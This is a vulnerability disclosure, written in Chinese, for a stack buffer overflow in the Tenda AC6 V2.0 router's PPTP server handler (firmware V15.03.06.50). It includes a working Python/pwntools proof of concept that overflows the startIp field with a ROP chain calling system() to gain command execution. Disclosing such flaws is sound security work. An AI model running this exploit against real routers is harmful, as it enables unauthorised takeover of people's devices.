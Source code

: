 # tenda AC6V2.0 缓冲区溢出漏洞报告  

## 漏洞描述  

在 tenda AC6V2.0 的 `formSetPPTPServer` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

满足一定条件后，参数startIp的值将被通过sscanf复制给栈上变量，导致溢出

<img width="470" alt="{BE84087B-29EB-4534-98CF-CBCF2295D90A}" src="https://github.com/user-attachments/assets/8d81d844-7511-4325-ab77-3e625f902f78">



## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_startIp():
	url = f"http://{target_ip}/goform/SetPptpServerCfg" 
	payload = b'a'*0x170+rop+b'.0.0.0'	
	data = {"serverEn": "1",
		"startIp": payload,
		"endIp": "a"
	}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_startIp()

